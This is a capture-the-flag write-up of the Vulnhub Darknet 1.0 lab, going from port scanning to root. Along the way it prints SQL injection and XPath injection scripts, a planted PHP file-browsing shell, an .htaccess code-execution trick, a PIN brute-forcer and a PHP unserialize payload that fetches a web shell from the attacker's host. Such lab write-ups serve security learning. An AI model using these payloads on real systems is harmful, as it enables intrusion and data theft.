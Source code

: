 Vulnhub Darknet1.0 write up
###########################

:title: Vulnhub Darknet1.0 write up
:date: 2015-06-08T00
:modified: 2015-07-08 18
:tags:


[Darknet 1.0](https://www.vulnhub.com/entry/darknet-10,120/) by `q3rv0 <https://www.vulnhub.com/author/q3rv0,111/>`_
isn't easy... for me anyway.

With some help and lots of reading I did however get to the bottom of it.

Here's my journey

Stage 1
=======

First things first: scan the target

.. code-block:: console

	root@kali:~# nmap -sV -p- 192.168.56.106
	
	Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 12:57 BST
	Nmap scan report for darknet.com (192.168.56.106)
	Host is up (0.00017s latency).
	Not shown: 65532 closed ports
	PORT      STATE SERVICE VERSION
	80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
	111/tcp   open  rpcbind 2-4 (RPC #100000)
	57664/tcp open  status  1 (RPC #100024)
	MAC Address: 08:00:27:E5:9F:EC (Cadmus Computer Systems)
	
	Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 20.86 second

Not much to be had here other than a web server. Poking at the RPC ports
didn't give any results. Browsing to the IP shows me:

.. image:: "http://i.imgur.com/b513tfj.png"


There's no :code:`robots.txt` so nothing left to do but run :code:`dirbuster` on it. Using the
:code:`directory-list-2.3-medium.txt` I'm rewarded with some directories and files that
might be of interest

.. image:: "http://i.imgur.com/dNQnSQy.png"


I downloaded the :code:`888.darknet.com.backup` file and took a look at it.

.. code-block:: text

	<VirtualHost *:80>
	    ServerName 888.darknet.com
	    ServerAdmin devnull@darknet.com
	    DocumentRoot /home/devnull/public_html
	    ErrorLog /home/devnull/logs
	</VirtualHost>

Hrmm.. a virtual host configuration. I added :code:`192.168.56.106 888.darknet.com` to my local :code:`/etc/hosts` 
and then pointed my browser to :code:`888.darknet.com` to be presented with this:

.. image:: "http://i.imgur.com/PcMHBLd.png"

Initial thoughts are SQLi, so  I started with some simple SQL injections to see 
if my hunch is correct. Entering a username like :code:`' or '1'='1` 
yields an *Ilegal* [sic] message. So this means two things: 1) SQLi is very
probably here becasue 2) our input is filtered. I didn't fancy working out
what chars I can and can't use so I made a script to do that for me

.. code-block:: python

	#!/usr/bin/python
	
	import requests
	import string
	import re
	
	def testit(c):
	    url = 'http://888.darknet.com/index.php'
	    payload = 'username=%s&password=%s&Action=Login' % (c, c)
	
	    r = requests.post(url, data=payload)
	    m = re.search('.*Ilegal.*', r.text)
	    if m:
	        print '%s\tIllegal' % c
	    else:
	        print '%s\t OK' % c
	
	for c in string.punctuation:
	    testit(c)
	

which yielded the following as illegal characters.

.. code-block:: text

	,	Illegal
	-	Illegal
	;	Illegal
	<	Illegal
	=	Illegal
	>	Illegal

everything else was fair game. Well almost everything, some SQL commands aren't
allowed either. But I've got enough to work with. 
I have a good idea that :code:`devnull` is a valid user, so I'll try to use that 
info. I enter :code:`devnull'/*` as a username hoping I am creating a query like
:code:`SELECT * FROM users WHERE username='devnull'/* AND password='xxxx';`. Hitting
the login button confirms my input is correct.

I should mention here that the VM has a bug in it so that even if you get the sqli
right, it will redirect you back to :code:`index.php`.  Noticed this in Burp as it
was redirection to :code:`main.php` after the correct SQLi, but then
going back to :code:`index.php`. A full reinstall of the VM will fix this, or reverting to
an earlier snapshot will also work.

Ok, so now I get 

Stage 2
=======

.. image:: "http://i.imgur.com/joaBvqT.png"


Whatever I enter here just goes somewhere without any feedback. This is completely blind
and will be a bit of a challenge.

While I was unaware of the bug I mentioned earier, I ended up entering a lot of different characters into the
login form. An interesting response comes when you enter :code:`'` for the username with any pass:
:code:`unrecognized token: "3590cb8af0bbb9e78c343b52b93773c9"`. This is the md5 of the password.
Using a number like :code:`1` for the password with :code:`'` as the username gives 
this error :code:`near "c4ca4238a0b923820dcc509a6f75849b": syntax error`
These errors indicate that this is in fact a SQLite DB. This information will help me with the admin console
as I now know what I am working with. This also confirms my earlier suspicion about what the query looks
like.

One useful feature of SQLite that I can exploit in this case, is its ability to create files on disk.
To leverage this, I need to find is a folder where I have permission to write files to. 
I ran :code:`dirbuster` again and now have a few directories to try

.. image:: "http://i.imgur.com/zlFz06Y.png"


In order to create a file with SQLite I need to attach the file in question as a database.
So I set about running commands like this

.. code-block:: text

	attach database '/home/devnull/public_html/test.php' as db;                
	drop table if exists db.test;                                                    
	create table db.test(payload text);                                              
	insert into db.test(payload) values('<?php phpinfo(); ?>');

From the Apache config I downloaded at the start, I know that the webroot is :code:`/home/devnull/public_html`,
so any directories I got back from dirbuster will be a subdirectory of that.
I try all the folders until I got a hit with the :code:`img` directory. So I've got a place to 
create files, but the bad news is that :code:`exec`, :code:`eval`, and its ilk are disabled.
This means no simple php shell. Boooo.

Not to worry, I got this. I knocked up a quick PHP script to do some work for me

.. code-block:: php

	if ($_GET["cmd"] == "db") {                                                     
	    $dbhandler=new SQLite3("/home/devnull/database/888-darknet.db");            
	                                                                                
	    $query = $dbhandler->query("SELECT * FROM login");                          
	                                                                                
	    while($result=$query->fetchArray()){                                        
	        print_r($result);                                                       
	        print "<br/>";                                                          
	    }                                                                           
	}                                                                               
	                                                                                
	if ($_GET["cmd"] == "ls") {                                                     
	    $path = $_GET["arg"];                                                       
	    @chdir($path);                                                              
	    $dir = @dir($path);                                                         
	    while($d = $dir->read()) {                                                  
	        print $d."<br/>";                                                       
	    }                                                                           
	}                                                                               
	if ($_GET["cmd"] == "cat") {                                                    
	    $file = $_GET["arg"];                                                       
	    $fh = fopen($file, "r");                                                    
	    if ($fh) {                                                                  
	        while ($l = fgets($fh)) {                                               
	            print htmlspecialchars($l)."<br/>";                                 
	        }                                                                       
	        fclose($fh);                                                            
	    } else { print "Cannot open ".$file."<br/>"; }                              
	} 

I use this as the payload in the :code:`INSERT` statement.

With the :code:`cmd` parameter I can now list directories and cat files. The database
details were added once I had got the details from the db file in the :code:`includes` folder.

I scoped around the server a bit, looking in the usual interesting folders, seeing if there's 
anything useful. Eventually I found something interesting in the Apache
config folder. There's another virtual host on this machine at :code:`signal8.darknet.com`. 

Before I go on, I best mention `DAws <https://github.com/dotcppfile/DAws>`_ which 
will make your life super easy. I crafted a file uploader in PHP which I put on the
server with the SQL admin trick above, and then uploaded the :code:`DAws.php` file. This
will drop a :code:`php.ini` on the server that allows you to run commands, and also create
a reverse shell to your host. **Much** easier than what I did, but you learn new things 
all the time. This will be the PHP script I'll be using going forward.

Stage 3
=======

Ok, so now I'm looking at the list of Darknet staff. Clicking on the usernames will take 
me to a php page showing me that user's email. While I ponder the significance of this
I check for a robots.txt file and this time there is one. It lists a directory 
called :code:`xpanel` which prompts me for another username and password combo. 
No SQLi here though I'm afraid. I cannot bruteforce this either. Well I *could* 
but I don't think I'll get a hit any time soon.

Fastforward and I'm stuck. After chatting to *g0blin* I get a hint that the :code:`contact.php` is
a key. I start attempting to inject stuff into the :code:`id` field. Eventually I notice that I am
not looking at the same DB. The ids don't match with what I saw before when I dumped the DB.
This is a new data store. But what is it?
SQL wasn't getting me anywhere so I leafed through books and notes and figured it could be
XML. If it is, it will most likely be something like :code:`...user/id=1]` Adding :code:`][1` at the end will
return the first and only result, and we should get the email as per normal. 
Adding :code:`[2` will error and return nothing as there should only be one result. If this works
I can be fairly certain that this is an XPath query.

.. image:: "http://i.imgur.com/7jRrIo0.png"


Excellent, it worked. Now I need to figure out how to make use of this. XPath isn't
something I've come across very often.

So I begin to experiment. First off I figured out if it's XPath V2 or XPath V1.
If entering :code:`id=1 or count(//*)][1` doesn't work, but :code:`id=1 lower-case('A')][1` does,
then it's XPath V2, otherwise it's XPath V1.

While I played around with this something clicked in my head and I groked enough of XPi
(XPath injection) to get to the bottom of this. Using the truth from above we can
determine the xpath names using the :code:`substring` function. I wrote another python
script to do the heavy lifting

.. code-block:: python

	import requests
	import string
	import sys
	
	
	path = ''
	if len(sys.argv) > 1:
	    path = sys.argv[1]
	
	URL = 'http://signal8.darknet.com/contact.php'
	payload_tpl = "1 and substring(name(%s),%d,1)='%s'][1"
	
	name = ''
	cmp_pos = 1
	carry_on = True
	
	while carry_on:
	
	    carry_on = False
	    print name
	    for c in string.ascii_letters:
	        payload = {'id': payload_tpl % (path,cmp_pos,c)}
	
	        r = requests.get(URL, params=payload)
	        if r.text.find('errorlevel') != -1:
	            name += c
	            carry_on = True
	            break
	
	    cmp_pos += 1
	
	print 'Path name:', name

So I ran this with the current path

.. code-block:: console

	root@kali:~/darknet# python xpath.py 
	u
	us
	use
	user
	Path name: user

and the parent path

.. code-block:: console

	root@kali:~/darknet# python xpath.py ..
	a
	au
	aut
	auth
	Path name: auth

Ok, that will help me get some more data from the file. I try to see if the
email field will work with :code:`1]/email|auth[id=1`. I need the :code:`auth` part because
without it the query will not close correctly in the main script, and this
makes sure the closing :code:`]` won't error.

So now I should be able to get the username with :code:`1]/username|auth[id=1`. 
Now let's try the password field. I tried :code:`pass` and :code:`password` before I realised we're dealing with another
language here. Thanks to the logins I know that the spanish for password is *clave*.
:code:`id=1]/clave|auth[id=1` throws up the password! Result. Using these detail
I am able to login at :code:`signal8.darknet.com/xpanel`

Stage 4
=======

.. image:: "http://i.imgur.com/TVG7WhQ.png"


Oooh a PHP editor! Sweet... yeah right. Clicking the link goes to a page that shows:

.. code-block:: text

	Tr0ll Found
	
	The requested URL /xpath/xpanel/edit.php was not found on this server.

So after some manual digging nothing comes up. Time to break out :code:`dirbuster` again
to find :code:`ploy.php` which presents me with

.. image:: "http://i.imgur.com/DueLt5z.png"


It requires a file which it uploads, as well as a specific combination of checkboxes to be checked.
Just trying some random checkboxes I can determine that the correct number of boxes is 4,
but instead of trying this all manually, I'll script this part.
Looking at the source of the page I see the values for the checkboxes.
All I have to do is iterate of all possible combinations of 4 of these numbers.

Here's my bruteforce script:

.. code-block:: python

	import sys
	import requests
	import itertools
	
	user = 'devnull'
	passwd = 'j4tC1P9aqmY'
	
	base_url = 'http://signal8.darknet.com/xpanel/'
	
	login_url = base_url + 'index.php'
	payload = {'username': user, 'password': passwd}
	
	sess = requests.session()
	
	r = sess.post(login_url, data=payload)
	
	ploy_url = base_url + 'ploy.php'
	
	for attempt in itertools.permutations(["37","58","22","12","72","10","59","17","99"], 4):
	    payload = {'Action':'Upload',
	               'checkbox[]': attempt
	
	              }
	
	    files = {'imag':('info.txt', open('info.php', 'rb')}
	
	    r = sess.post(ploy_url, data=payload, files=files)
	
	    if r.text.find('Key incorrecta!') == -1:
	        print 'Found pin: ', attempt
	        sys.exit(0)

The correct PIN is :code:`'37', '10', '59', '17'`. I tried to upload a PHP script, but
that won't work. Seems uploading anything with a :code:`php` extension is forbidden.
Casting my mind back I noticed that in the apache config I noticed something interesting.
For this site :code:`AllowOverride All` is on. Most likely going to be something to 
do with :code:`.htaccess`. To check this I upload the following file, and then browse to a
non-existant file, to generate a 404

.. code-block:: text

	Order deny,allow
	Allow from all
	ErrorDocument 404 https://google.com
	

This should direct me to :code:`google.com`, which it does, indicating :code:`.htaccess` overrides work here.
So what can I do from here that will either allow me to upload a PHP shell or do something else?

Unfortunately there's another issue: as I upload files, old files seem to get deleted. 
I found this out when the 404 redirect stopped working after uploading an html file.

Luckily I discovered that it's possible to execute php code inside the .htaccess file.

.. code-block:: text

	AddHandler application/x-httpd-php .htaccess                                    
	DirectoryIndex .htaccess                                                        
	<FilesMatch "^\.htaccess">                                                      
	Order deny,allow                                                                
	Allow from all                                                                  
	SetHandler application/x-httpd-php                                              
	</FilesMatch>                                                                   
	                                                                                
	#<?php print $_GET["test"]; ?> 

Sure enough the :code:`$_GET["test"]` variable is on the page. So this should allow me 
to get a run some useful code on there somehow.

After following some blind leads, I wrote a php script that would take a file encoded 
with base64 and a filename via a :code:`POST` method and write this file out.
(Note: appending the entire script for DAws or similar didn't work).
Something like this should work though:

.. code-block:: php

	$fp = fopen($_POST['name'], 'wb'); 
	fwrite($fp, base64_decode($_POST['data'])); 
	fclose($fp);

At the end of the :code:`.htaccess` file. However this always error with a permissions
error.

After struggling with this for quite some time I got some help from a fellow
#vulnhub resident who helped me out with something I missed. It's :code:`suphp` not :code:`php`,
so I wasn't executing the script as the :code:`errorlevel` user. Derp.

More info on `suphp <http://suphp.org/Home.html>`_

Stage 5
=======

So having sorted that I uploaded :code:`DAws` and got myself a reverse shell and explored
once more. Now inside :code:`/var/www` there's some files I missed earlier: :code:`sec.php`,
:code:`Classes/Test.php`, and :code:`Classes/Show.php`. Interesting.

Trying to hit :code:`darknet.com/sec.php` errors. Let's take a look inside of it

.. code-block:: php

	<?php
	
	require "Classes/Test.php";
	require "Classes/Show.php";
	
	if(!empty($_POST['test'])){
	    $d=$_POST['test'];
	    $j=unserialize($d);
	    echo $j;
	}
	?>

Rembering that we're dealing with suphp it could well be that the 500 error is
because :code:`sec.php` is trying to run as :code:`root`. Checking :code:`/etc/suphp/suphp.conf` 
my suspicion is correct, the :code:`min_uid` and :code:`min_gid` settings are too high for
:code:`root` scripts to run. But hey, as luck would have it (thanks q3rv0) :code:`suphp.conf`
is :code:`777`. So heading straight to :code:`sed`

.. code-block:: console

	$ sed -i 's/min_uid=100/min_uid=0/g' suphp.conf
	sed: couldn't open temporary file ./sedm2LUZQ: Permission denied

Hmph. Ok then I'll copy the :code:`suphp.conf` to :code:`/tmp` and edit it there, then copy
it back. Making sure I change both :code:`min_uid` and :code:`min_gid`, I reload :code:`sec.php` and
get a blank page. No errors are good errors.

Now that I've got :code:`sec.php` running I can go ahead and see what we might be able to exploit.
Anything we do with this file will run as root, some hopefully this is the last part of
Darknet, because I want my life back :)

:code:`sec.php` unserialises our input, which basically takes a serialised string 
and `unserialises into an object <https://php.net/manual/en/function.unserialize.php>`_. 
Similar to Python's pickle. There's no way I can call a method on either of the classes,
so I have to see what will get called for me.
The :code:`Test` class has a rather useful destructor, which,
will write data to disk and make it world readable. Almost as if that's what
we're supposed to use. 

.. code-block:: php

	<?php
	
	class Test {
	
	    public $url;
	    public $name_file;
	    public $path;
	
	    function __destruct(){
	        $data=file_get_contents($this->url);
	        $f=fopen($this->path."/".$this->name_file, "w");
	        fwrite($f, $data);
	        fclose($f);
	        chmod($this->path."/".$this->name_file, 0644);
	}
	}
	
	?>

The :code:`Show` class on the other hand is only useful for testing, as this will provide visual
feedback when :code:`sec.php` gets rendered and runs the :code:`echo` statement. This will
invoke the :code:`__toString` method on the :code:`Show` class. Passing :code:`test=O:4:"Show":1:{s:4:"woot";s:2:"XX";}` 
will print :code:`Showme`, confirming that the serialisation worked.

Now to get DAws on there as root. First things first I need to determine the serialised
string. I do this with a simple PHP script that searialises the :code:`Test` class and
prints out the string I need. Which is

.. code-block:: text

	O:4:"Test":3:{s:3:"url";s:30:"http://192.168.56.101/DAws.txt";s:9:"name_file";s:8:"DAws.php";s:4:"path";s:8:"/var/www"}

Using Burp suite I use a :code:`GET` request to :code:`sec.php`, send it to :code:`Repeater` and convert
it to a :code:`POST` request with the required payload:

.. image:: "http://i.imgur.com/kiutbRt.png"


Then I, once again, browse to my DAws url and bind a shell to finally get:

.. code-block:: console

	# whoami && id
	root
	uid=0(root) gid=0(root) groups=0(root)
	# cat flag.txt
	      ___           ___           ___           ___           ___           ___           ___     
	     /\  \         /\  \         /\  \         /\__\         /\__\         /\  \         /\  \    
	    /::\  \       /::\  \       /::\  \       /:/  /        /::|  |       /::\  \        \:\  \   
	   /:/\:\  \     /:/\:\  \     /:/\:\  \     /:/__/        /:|:|  |      /:/\:\  \        \:\  \  
	  /:/  \:\__\   /::\~\:\  \   /::\~\:\  \   /::\__\____   /:/|:|  |__   /::\~\:\  \       /::\  \ 
	 /:/__/ \:|__| /:/\:\ \:\__\ /:/\:\ \:\__\ /:/\:::::\__\ /:/ |:| /\__\ /:/\:\ \:\__\     /:/\:\__\
	 \:\  \ /:/  / \/__\:\/:/  / \/_|::\/:/  / \/_|:|~~|~    \/__|:|/:/  / \:\~\:\ \/__/    /:/  \/__/
	  \:\  /:/  /       \::/  /     |:|::/  /     |:|  |         |:/:/  /   \:\ \:\__\     /:/  /     
	   \:\/:/  /        /:/  /      |:|\/__/      |:|  |         |::/  /     \:\ \/__/     \/__/      
	    \::/__/        /:/  /       |:|  |        |:|  |         /:/  /       \:\__\                  
	     ~~            \/__/         \|__|         \|__|         \/__/         \/__/                 
	
	
	
	     Sabia que podias Campeon!, espero que esta VM haya sido de tu agrado y te hayas divertido
	     tratando de llegar hasta aca. Eso es lo que realmente importa!.
	
	
	#Blog: www.securitysignal.org
	
	#Twitter: @SecSignal, @q3rv0

I learned sooooo much through this VM. Many thanks to qu3rv0 for creating it,
Vulnhub for hosting it, and the people who helped me get through it (esp g0blin).

I look forward to the next one.

Note
====

As it was possible to upload a shell with the SQL Admin page, browsing to :code:`/var/www` would have
taken us directly to the end stage. All the info was there and :code:`suphp.conf` is world writeable. 
Had I done that though I would have missed out on the XPath challenge, which taught me some new tricks,
as well as all the other fun puzzles.

